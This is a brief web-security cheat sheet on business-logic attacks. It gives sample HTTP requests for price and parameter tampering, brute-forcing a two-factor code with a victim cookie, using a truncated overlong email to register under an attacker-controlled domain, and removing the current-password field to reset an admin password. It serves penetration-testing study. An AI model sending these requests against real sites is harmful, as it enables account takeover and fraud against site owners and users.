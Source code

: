 ```yaml
---
title: Business Logic Attack
description: Business Logic is the part of the program that encodes the real-world business rules that determine how data can be created, stored, and changed. 
tags:
    - Web
draft: false
---
```


## Change POST Params to Unexpected Values

```sh
productId=-1
productId=a
productId=1&price=-1000
```

<br />

## Exploit Broken Two-Factor

1. **Brute force a MFA Code**

    ```html
    POST /login HTTP/1.1
    Cookie: verify=victim
    ...

    <!-- Brute force digits code -->
    mfa-code=1111
    ```

<br />

## Loop Back with 2,147,483,647

No contents yet.

<br />

## Register with Too Long-Length Email Address

```html
POST /register HTTP/1.1
...

username=attacker&password=pass1&email=aaaaaaaaaaaaa...aa@vulnerable.com.attacker.com
```

<br />

## Remove the Specific POST Params

```html
POST /change-password HTTP/1.1
...

<!-- Remove 'current-password' parameter -->
username=admin&new-password-1=newpass&new-password-2=newpass
```